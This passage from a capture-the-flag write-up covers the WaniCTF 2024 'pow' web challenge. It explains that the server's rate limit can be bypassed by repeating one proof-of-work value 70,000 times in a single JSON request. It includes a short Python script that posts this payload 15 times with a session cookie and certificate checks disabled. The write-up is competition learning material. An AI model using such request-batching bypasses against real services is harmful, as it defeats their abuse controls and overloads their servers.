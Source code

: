 There is a rate limit, but can we send more than 1 value in a single request ? Certainly : ![image](/assets/img/wanictf24/poc2_pow.png)

We build a simple python code to send 70000 values by request :

```python
import requests
import urllib3
urllib3.disable_warnings()

cookies = {
    'pow_session': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzZXNzaW9uSWQiOiIwYmFhODJmMC05YzcxLTRiYjgtOTAxOC00YWFkNTYxOTc4YWMifQ.bK9BzZU_7VlVbiYLzMiRJsCjzKYoEx6pq-X-GWToTVU',
}

json_data = [
    '2862152',
] * 70000

for i in range(15):
  response = requests.post(
      'https://web-pow-lz56g6.wanictf.org/api/pow',
      cookies=cookies,
      json=json_data,
      verify=False,
      #proxies={"http":"0.0.0.0:8080", "https":"0.0.0.0:8080"}
  )
```

![image](/assets/img/wanictf24/flag_pow.png)
